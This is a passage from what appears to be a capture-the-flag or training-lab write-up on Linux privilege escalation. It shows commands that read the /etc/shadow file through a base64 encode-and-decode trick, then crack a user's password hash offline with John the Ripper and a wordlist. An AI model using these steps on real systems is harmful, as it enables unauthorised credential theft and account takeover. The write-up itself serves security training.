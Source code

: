 
- Now we're going to try and find the location of our two flags from the home directory using `find -name flag*.txt`.

![find flags](../../images/screenshots/linux-privilege-escalation/task12/find-flag-locations.png)


- We now know the directories that the flags are in but we do not have permissions to access the directories, seeing as 'missy' apppears to be a user on the target machine I used base64 to view the contents of the shadow file:

```
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```

![read shadow file](../../images/screenshots/linux-privilege-escalation/task12/read-shadow-file.png)


- We can see that "missy" is in fact a user and we will copy the user password hash for "missy" into a .txt file on our attacker machine. We can then use the John the Ripper tool with a wordlist (like the rockyou.txt wordlist) to attempt to crack the password:

```
john --wordlist=</PATH/TO/WORDLIST.TXT> <FILENAME>
john --show <FILENAME>
```

![password cracked](../../images/screenshots/linux-privilege-escalation/task12/missy-password.png)
